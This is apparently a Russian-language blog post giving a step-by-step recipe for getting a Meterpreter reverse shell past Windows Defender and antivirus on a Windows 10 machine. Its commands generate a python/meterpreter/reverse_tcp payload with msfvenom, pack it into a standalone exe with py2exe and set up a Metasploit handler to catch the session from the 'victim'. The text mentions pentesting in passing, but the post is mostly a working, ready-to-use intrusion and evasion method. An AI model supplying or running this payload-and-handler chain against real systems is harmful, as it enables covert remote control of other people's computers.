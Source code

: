 ```yaml
---
layout: post
categories: articles_rus
tags:
  - python
  - rev_shell
  - meterpreter
published: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение

Итак ситуация, есть возможность загрузить на тестируемую в рамках пентеста или другой легимитивной деятельности Windows машину файл и даже возможно исполнить его. Если мы говорим об последней, десятой версиии ОС то мы столкнёмся с местнымм его защитником Windows Defender, так же велика вероятность наткнуться на антивирус. В такой ситуации очень удобный и расширяемый meterpreter не сможет работать, какая есть альтернатива? 

## Python
{:id="python"}

Вот и ответ, использование Python в связке с metasploit и msfvenom позволяет нам получить достойную альтернативу классическому meterpreter с большинством его удобных функций. Правда некоторыми придется пожертвовать, не будет возможности использовать такие команды как getsystem и нельзя будет мигрировать в процесс.


# Начинаем

Общая схема такова: мы генерируем python код с помощью msfvenom, "скармливаем" его py2exe, полученый бинарник запускаем на машине жертвы и ловим сессию.
<br><br>
Для начала установим py2exe под 3.4 версию так как всё что выше не поддерживается.
~~~
pip install py2exe
~~~
Или, если вы как и я любите обновляться
~~~
python -3.4 –m pip install py2exe
~~~

<br><br>

Далее создаём .py код:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~

К коду необходимо добавить import getpass который msfvenom по умолчанию почему-то не делает.

<br><br>


Делаем exe:
<br>
~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


И запускаем его на машине жертвы предварительно запустив handler:<br>
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

И получаем коммандную оболочку:

![Python_shell]({{ site.baseurl }}/assets/img/posts_rus/python_shell.jpg){:class="img"}

# Заключение
{:id="end"}

Простой и эффективный способ борьбы с Windows Defender если не хочется терять удобный и привычный функционал meterpreter в угоду более нативным решениям, как например ssh или telnet. 
<br><br>
